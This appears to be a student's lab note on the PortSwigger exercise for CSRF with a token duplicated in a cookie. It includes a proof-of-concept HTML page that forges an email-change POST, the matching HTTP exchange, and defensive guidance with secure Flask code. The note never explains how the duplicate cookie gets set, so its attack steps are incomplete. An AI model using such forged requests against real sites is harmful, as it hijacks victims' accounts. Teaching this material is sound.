

## Lab Exercise: CSRF Attack with Token Duplicated in Cookie

In this lab exercise, we will simulate a CSRF attack where the CSRF token is duplicated in a cookie. We will walk through the steps to identify and exploit the vulnerability, and then discuss how to prevent such attacks.

### Setup

1. **Web Application**: Assume we have a web application with a form that allows users to change their email address.
2. **CSRF Vulnerability**: The application does not properly validate the CSRF token, allowing an attacker to duplicate the token in a cookie.

### Steps to Exploit the Vulnerability

1. **Identify the CSRF Token**: The attacker needs to identify the CSRF token used by the application.
2. **Duplicate the Token in a Cookie**: The attacker crafts a malicious request that duplicates the CSRF token in a cookie.
3. **Trigger the Request**: The attacker tricks the victim into triggering the malicious request.

### Example Code

Here is an example of how the attacker might craft the malicious request:

```html
<html>
<body>
<script>
    function triggerCSRF() {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://example.com/change-email");
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.withCredentials = true;
        xhr.send("email=test3@test.c&csrf_token=duplicate_token");
    }
</script>
<button onclick="triggerCSRF()">Change Email</button>
</body>
</html>
```

### Full HTTP Request and Response

#### HTTP Request

```http
POST /change-email HTTP/1.1
Host: example.com
Cookie: csrf_token=duplicate_token
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

email=test3@test.c&csrf_token=duplicate_token
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Tue, 01 Aug 2023 12:00:00 GMT
Content-Type: text/html
Content-Length: 34

Email changed successfully.
```

### Diagram of CSRF Attack Flow



### How to Prevent / Defend

To prevent CSRF attacks, web applications should implement the following measures:

1. **CSRF Tokens**: Ensure that CSRF tokens are unique and unpredictable.
2. **SameSite Cookies**: Configure cookies to be sent only with same-site requests.
3. **Referer Header Checks**: Validate the `Referer` header to ensure that requests come from the expected origin.
4. **Secure Coding Practices**: Follow secure coding practices to avoid introducing vulnerabilities.

### Secure Code Example

Here is an example of how to securely implement CSRF protection in a web application:

#### Vulnerable Code

```python
@app.route('/submit', methods=['POST'])
def submit():
    email = request.form['email']
    # Process the form data
    return "Form processed successfully"
```

#### Secure Code

```python
@app.route('/submit', methods=['POST'])
def submit():
    if request.form.get('csrf_token') != session.get('csrf_token'):
        return "Invalid CSRF token", 403
    email = request.form['email']
    # Process the form data
    return "Form processed successfully"
```

### Detection and Mitigation

To detect and mitigate CSRF attacks, organizations should:

1. **Monitor Logs**: Regularly monitor logs for suspicious activity.
2. **Use WAFs**: Implement Web Application Firewalls (WAFs) to detect and block malicious requests.
3. **Educate Users**: Educate users about the risks of clicking on suspicious links and submitting forms on untrusted sites.

### Hands-On Labs

For hands-on practice with CSRF attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers comprehensive labs on various web security topics, including CSRF.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains numerous security vulnerabilities.

By thoroughly understanding and implementing these preventive measures, web developers can significantly reduce the risk of CSRF attacks and protect their applications from unauthorized actions.

---
<!-- nav -->
[[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/07-Lab 6 CSRF where token is duplicated in cookie/03-Cross-Site Request Forgery (CSRF)|Cross-Site Request Forgery (CSRF)]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/07-Lab 6 CSRF where token is duplicated in cookie/00-Overview|Overview]] | [[05-Lab Scenario CSRF Token Duplicated in Cookie|Lab Scenario CSRF Token Duplicated in Cookie]]
